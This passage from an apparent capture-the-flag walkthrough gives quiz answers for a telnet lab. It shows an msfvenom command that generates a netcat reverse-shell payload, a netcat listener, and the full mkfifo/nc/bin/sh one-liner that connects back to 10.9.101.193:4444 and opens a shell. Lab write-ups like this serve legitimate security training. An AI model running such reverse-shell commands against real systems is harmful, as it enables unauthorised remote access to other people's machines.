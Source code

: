 ```
msfvenom -p cmd/unix/reverse_netcat LHOST=10.9.101.193
```

![](<../../.gitbook/assets/Screenshot from 2020-09-08 23-13-18.png>)

#### What word does the generated payload start with?

{% hint style="success" %}
`mkfifo`
{% endhint %}

#### Perfect. We're nearly there. Now all we need to do is start a netcat listener on our local machine.

```bash
nc -nvlp 4444
```

#### What would the command look like for the listening port we selected in our payload?

{% hint style="success" %}
`nc -lvp 4444`
{% endhint %}

#### Great! Now that's running, we need to copy and paste our msfvenom payload into the telnet session and run it as a command. Hopefully- this will give us a shell on the target machine!

```
.RUN mkfifo /tmp/gtjkwze; nc 10.9.101.193 4444 0</tmp/gtjkwze | /bin/sh >/tmp/gtjkwze 2>&1; rm /tmp/gtjkwze
```

![](<../../.gitbook/assets/Screenshot from 2020-09-08 23-14-54.png>)

#### **Success! What is the contents of flag.txt?**

```
cat flag.txt
```
